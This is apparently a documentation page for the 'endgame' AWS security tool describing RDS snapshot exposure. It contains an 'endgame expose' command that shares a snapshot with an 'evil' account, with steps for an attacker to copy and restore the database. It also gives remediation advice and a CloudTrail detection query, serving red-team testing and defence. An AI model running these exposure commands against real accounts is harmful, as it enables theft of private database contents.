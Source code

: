 # RDS Snapshots

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service rds --name test-resource-exposure
```


* To view a list of the AWS Accounts that have access to the RDS DB Snapshot, run the following command from the victim account:

```bash
aws rds describe-db-snapshot-attributes \
    --db-snapshot-identifier test-resource-exposure
```


## Example

* Observe that the account ID of the evil principal (`999988887777`) is listed alongside the AttributeName called `restore`. This means that the evil account ID is able to restore the snapshot of the RDS database in their own account.

```json
{
    "DBSnapshotAttributesResult": {
        "DBSnapshotIdentifier": "test-resource-exposure",
        "DBSnapshotAttributes": [
            {
                "AttributeName": "restore",
                "AttributeValues": [
                    "999988887777"
                ]
            }
        ]
    }
}
```

## Exploitation

After the RDS snapshot is public or shared with the rogue user account, an attacker can then:
* [copy the snapshot](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/USER_CopySnapshot.html#USER_CopyDBSnapshot)
* [Restore a DB Instance from the DB Snapshot](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/CHAP_Tutorials.RestoringFromSnapshot.html)
* Browse the contents of the database, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that RDS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the RDS Snapshots.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your RDS Snapshots**: Tightly control access to the following IAM actions:
  - [rds:DescribeDbClusterSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshotAttributes.html): _Grants permission to return a list of DB cluster snapshot attribute names and values for a manual DB cluster snapshot. This includes information on which AWS Accounts have access to the snapshot._
  - [rds:DescribeDbClusterSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshots.html): _Grants permission to return information about DB cluster snapshots._
  - [rds:DescribeDbSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshotAttributes.html): _Grants permission to return a list of DB snapshot attribute names and values for a manual DB snapshot. This includes information on which AWS Accounts have access to the snapshot._
  - [rds:DescribeDbSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshots.html): _Grants permission to return information about DB snapshots_
  - [rds:ModifyDBSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB snapshot. This includes the ability to share snapshots with other AWS Accounts._
  - [rds:ModifyDBClusterSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBClusterSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB cluster snapshot. This includes the ability to share snapshots with other AWS Accounts._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='rds.amazonaws.com' AND (eventName='ModifyDBSnapshotAttribute' or eventName='ModifyDBClusterSnapshotAttribute' and requestParameters.attributeName='restore')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

- [aws rds modify-db-cluster-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-cluster-snapshot-attribute.html)
- [aws rds modify-db-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-snapshot-attribute.html)
- [aws rds describe-db-snapshot-attributes](https://docs.aws.amazon.com/cli/latest/reference/rds/describe-db-snapshot-attributes.html)
